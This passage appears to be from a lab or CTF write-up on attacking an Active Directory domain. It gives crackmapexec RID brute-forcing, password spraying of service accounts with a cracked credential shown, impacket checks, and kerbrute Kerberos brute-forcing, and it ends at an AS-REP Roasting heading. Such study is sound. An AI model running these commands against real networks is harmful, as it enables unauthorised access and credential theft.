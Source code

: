 ```
> shares
> use internal
> cat flag.txt
```

*Running this for an unprivileged user doesn't grant us access to that share.*

Try for rdp as well impacket-psexec, etc:

`impacket-rdp_check xyz.com/rbond:booboo@172.140.0.40`

impacket-psexec doesn't give us any results, maybe because malicious code execution is flagged by Windows:
> Ref: https://www.trustedsec.com/blog/no_psexec_needed/

----------------------------------------------------------------------------------------------------------

### Enumerate AD Objects

`crackmapexec smb 172.140.0.40 -u rbond -p booboo -d xyz.com --rid-brute`

### Brute-forcing Passwords of ServiceAccounts (Only one Kerberoastable)

```sh
crackmapexec smb 172.140.0.40 -u http_svc$ -p passwords.txt
crackmapexec smb 172.140.0.40 -u mssql_svc$ -p passwords.txt
crackmapexec smb 172.140.0.40 -u exchange_svc$ -p passwords.txt
```

http_svc$:scooby

> Refs: https://www.tarlogic.com/blog/how-to-attack-kerberos/

# Kerberos Brute-Force (save TGTs)

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.

- Install kerbrute:

```
git clone https://github.com/TarlogicSecurity/kerbrute
cd kerbrute
pip install -r requirements.txt
```

Run (where users.txt holds some User Accounts + Service Accounts):

`python3 kerbrute.py -domain xyz.com -users users.txt -passwords passwords.txt -outputfile domain_passwords.txt`

# AS-REP Roasting
